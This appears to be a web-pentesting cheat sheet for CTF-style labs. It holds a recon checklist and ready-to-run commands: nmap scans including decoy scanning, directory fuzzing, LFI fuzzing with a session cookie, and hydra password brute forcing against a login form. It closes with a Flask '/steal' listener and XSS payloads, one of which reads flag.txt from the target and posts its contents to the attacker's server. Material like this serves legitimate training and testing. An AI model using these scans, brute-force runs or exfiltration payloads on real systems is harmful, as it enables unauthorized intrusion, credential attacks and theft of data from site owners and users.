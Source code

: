 
- [ ] Dorking needed? 
- [ ] Nmap targert address
- [ ] Robots.txt? sitemap.xml
- [ ] Case Sensitive 
- [ ] Gobuster root directory
- [ ] Gobuster main parent directory's
- [ ] Gobuster with common file extensions 
- [ ] Fuzz sub directories? 
- [ ] Inject points?
- [ ] Injection type SQL, NoSQL, XML, XXE, Server-side template
- [ ] Brute forcing? 
- [ ] List Frameworks?
- [ ] Authentication type?
- [ ] Source code comments, scripts, folders in links not found in GoBuster
- [ ] Source code interesting findings, points of XSS? 
- [ ] Path traversal?
- [ ] Cookies? what session auth e.g JWT? 
- [ ] Points of Access control vulnerabilities?
- [ ] Business logic vulnerabilities?
- [ ] Security cookies / Headers?  
- [ ] HTTP Host Header, Smuggling, Cache poisoning


Copy replace the following 
```
<host>  ip or hostname
<port> (default ports? use 80 for http and 443 for https)
<protocol> (http or https)
```
Detect service versions:
```
nmap -sV <host>
```

All ports
```
nmap -p- -sV <host>
```

Aggressive scan (OS, version, script scan, traceroute)
```
sudo nmap -A <host>
```

Scan using a decoy IP
```
sudo nmap -D 192.168.1.100 <host>
```

Gobuster with common files
```
gobuster dir -u http://ip/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,js
```

ffuf with common files + proxy 
```
ffuf -u http://<host>:<port>/FUZZ -w /usr/share/wordlists/dirb/common.txt -x <protocol>://10.10.113.249:8080 -e .php,.html,.txt,.js
```

Build wordlist off website words, make lowercase and uppercase, also uppercase first letter then remove duplicates.
```
cewl <protocol>://<host>:<port> -d 10 -m 4 -w wordlist.txt  

awk '{print $0; print tolower($0); print toupper($0); print toupper(substr($0,1,1)) tolower(substr($0,2))}' wordlist.txt | LC_ALL=C sort | uniq > wordlist_all_cases.txt

```

Scanning for LFI, with cookie, 
```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/LFI/LFI-Jhaddix.txt

wfuzz -c -z file,LFI-Jhaddix.txt --hc 404 --hl 0 -H "Cookie: PHPSESSID=31btcd0pvfvkehu4gm7cc7ocvk" <protocol>://<host>:<port>/profile.php?img=FUZZ

```

Username Emulation
```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/Names/names.txt

hydra -L names.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=password123:Wrong" 
```

Flask server to assist XSS (Cross-Site Scripting) / Open Redirect 

```
nano flaskserverpost.py
```

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/steal', methods=['POST'])
def steal():
    data = request.data.decode('utf-8')  # Read raw POST data
    print(f"Stolen Data: {data}")
    return "Data received", 200

if __name__ == '__main__':
    app.run(host='10.4.114.252', port=5000)

```

Test JavaScript
```
<script>fetch("http://10.4.114.252:5000/steal", {
    method: "POST",
    headers: { "Content-Type": "text/plain" },
    body: "test_post"
});</script>
```

Example JavaScript 
```
<script>
fetch("http://10.10.138.151:8080/flag.txt")
  .then(r => r.text())
  .then(d => { console.log(d); return fetch("http://10.4.114.252:5000/steal", {method: "POST", headers: {"Content-Type": "text/plain"}, body: d}); });
</script>
```

